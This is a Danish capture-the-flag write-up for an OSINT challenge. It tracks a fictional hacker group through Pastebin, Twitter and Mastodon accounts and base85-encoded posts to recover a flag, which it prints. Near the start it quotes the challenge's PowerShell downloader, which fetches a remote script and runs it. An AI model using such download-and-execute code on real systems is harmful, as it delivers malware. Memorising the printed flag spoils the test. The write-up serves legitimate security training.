

# Writeup

Vi har brug for at finde info om `N1ss3b4nd3n` og dens medlemmer, og her er det naturligt at se, om noget kan fremfindes offentligt på nettet.

Opgaven er egentlig tiltænkt at forudsætte, man har løst [Nisseware: Loading](../nisseware-loading/) eller som minimum fundet frem til et af deres payloads hosted på pastebin.
Det er dog ikke strengt nødvendigt, da man også finder gruppens pastebin med en søgning på `N1ss3b4nd3n` med fx https://whatsmyname.app/ eller [sherlock](https://github.com/sherlock-project/sherlock), så opgaven kan også løses separat uden netværksanalyse og/eller reverse engineering.

Det nyeste payload linket fra GitHub er https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Som nævnt i writeup for `Nisseware: Loading`, kan vi fjerne `/raw` fra URLen, for at se scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.


Payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - vi kan klikke på brugernavnet og se, hvad de ellers har af bins: https://pastebin.com/u/N1ss3b4nd3n.

Her ligger kun en enkelt public bin: https://pastebin.com/hQcmjWHL, som dog virker yderst relevant:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Vi har nu en liste af i hvert fald fem potentielle medlemmer af `N1ss3b4nd3n`, og her bør man jo lede efter spor på dem alle.
Dog er `P1l` meget kort og ikke særlig unikt og vil højest sandsynligt kun være falske positiver - samme gælder egentlig `Lun73`, de havde begge været lidt tarvelige at lægge relevant info på, men er selvfølgelig værd at undersøge, især hvis man ikke finder noget på de resterende. De mest unikke er umiddelbart `HrM0rt3ns3n` og `G3mys3`, så de er værd at starte med.

Der findes mange tilgængelig OSINT lookup tools, bl.a. command line værktøjet [sherlock](https://github.com/sherlock-project/sherlock), der virker *okay*, men tit har mange falske positiver og mangler. Især kan det være svært med sider, der kræver profil for overhovedet at lave opslag. Servicen [WhatsMyName](https://whatsmyname.app/) kan anbefales i stedet, her kan vi starte med at indsætte de to mest unikke usernames (med en newline efter det sidste!) og lave en søgning:


På de to navne findes kun ét resultat på `Twitter`/`X`, der dog virker relevant med så unikt et username: https://twitter.com/HrM0rt3ns3n


Bingo! Helt klart relevant og vejen frem! `Hr. M0rt3ns3n` har syv posts i alt, hvoraf fire bare er reposts af memes o.l. (den første dog lidt relevant, en nyhed med password leak, et lille nudge til senere i `Nisseware: Infrastructure`). Hans nyeste personlige post er lidt et nudge til hans indblanding i `N1ss3b4nd3n` og shady forretninger:


De foregående er dog noget mere relevante:


Her virker det til, han er rykket til Mastodon som mange andre, og han har postet et base64 encoded link:

```
aHR0cHM6Ly9tYXN0b2Rvbi5zb2NpYWwvQE0wcnQzbnMzbg==
= https://mastodon.social/@M0rt3ns3n
```

Han har altså brugt et lidt andet username på Mastodon, og derfor fandt vi det ikke med en search før. Smider man `M0rt3ns3n` i `WhatsMyName` finder den også Mastodon profilen (samt en række urelaterede falske positiver). Vi klikker os videre til https://mastodon.social/@M0rt3ns3n:


Her ser vi en række mere eller mindre relevante posts:





Første post peger på, at der måske er en anden relevant user, han her bare kalder `julle`.
Mon ikke, det er den user, vi ser i 2. post, som da også er den enste, han følger: `n1ss3far`.
Det post kobler også helt tydeligt `HrM0rt3ns3n` til `N1ss3b4nd3n` med hans egne ord.
Det 4. post tyder også på hans indblanding i angrebene mod legetøjsvirksomheder.

Sidst har vi i 3. post en bid encoded tekst, `:.$gaAh\%;0R$k_BJT`, og han nævner, det er encoded med en mere kompakt metode end default.
Med default refererer han nok til `base64`, hvor en anden mere kompakt og stadig velkendt og anvendt metode er `base85`.
Decoder vi med `base85` med fx [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base85('!-u',true,'z')&input=Oi4kZ2FBaFwlOzBSJGtfQkpU), får vi første halvdel af flaget: `NC3{f0ll0w_7h3`.

Så langt så godt! Men vi har nu identificeret endnu en bruger på Mastodon, `n1ss3f4r`, og fortsætter over på hans profil: https://mastodon.social/@n1ss3f4r


Vi kigger ligeså hans posts igennem:


Det peger ret eksplicit på, at han har droppet `mastodon.social` og er hoppet på `infosec.exchange`, hvor han er nem at finde på samme username: https://infosec.exchange/@n1ss3f4r


Her har han en række posts, hvoraf nogle er lidt interessante:


Filkryptering, videresalg af data, kryptovaluta, de har helt sikkert gang i ransomware.
Næste opslag ligner noget, vi har set før, mon ikke den "bekendte" er `HrM0rt3ns3n`:


Vi decoder igen med base85 og får 2. halvdel af flaget:

```
?[$0<F>I9J1h'oKFF=  ->  _wh1t3_w4bb1t}
```

Samler vi delene, har vi nu hele flaget: `NC3{f0ll0w_7h3_wh1t3_w4bb1t}`.
Så langt så godt! Vi ser lige de sidste posts igennem også:


Det første post hinter igen mod encryption og måske derfor ransomware - kan være, det er et godt tip at holde in mente, at han er lidt forvirret over block cipher modes!

Det næste er igen med til at bestyrke vores antagelse om, at `n1ss3f4r` er en væsentlig del af `N1ss3b4nd3n`, måske endda deres hemmelige leder, det virker nærliggende.

Sidst er der et post, der peger på, at `n1ss3f4r` måske har profiler på flere sider, og sandsynligvis nogle lidt ældre end Mastodon o.l.

Efterforskningen fortsætter i [Nisseware: Infrastructure](../nisseware-infrastructure/)!

**Flag**

`NC3{f0ll0w_7h3_wh1t3_w4bb1t}`
